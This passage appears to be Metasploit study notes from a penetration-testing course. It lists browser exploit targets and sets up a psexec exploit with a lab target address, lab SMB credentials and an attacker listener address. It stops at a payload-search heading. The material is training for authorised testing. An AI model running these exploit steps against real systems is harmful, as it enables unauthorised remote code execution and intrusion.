 ```
info
```

#### See Module Vulnerable Targets 

```shell-session
msf6 exploit(windows/browser/ie_execcommand_uaf) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   IE 7 on Windows XP SP3
   2   IE 8 on Windows XP SP3
   3   IE 7 on Windows Vista
   4   IE 8 on Windows Vista
   5   IE 8 on Windows 7
   6   IE 9 on Windows 7
```

##### Set Target 

If the specific target is known:
```shell-session
set target 6
```
#### Setting Options 

```shell-session
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```
##### Set Global Options 

```
setg RHOSTS 1.1.1.1
```

### Show Payload

```shell-session
show payloads
```

##### Search Payloads 
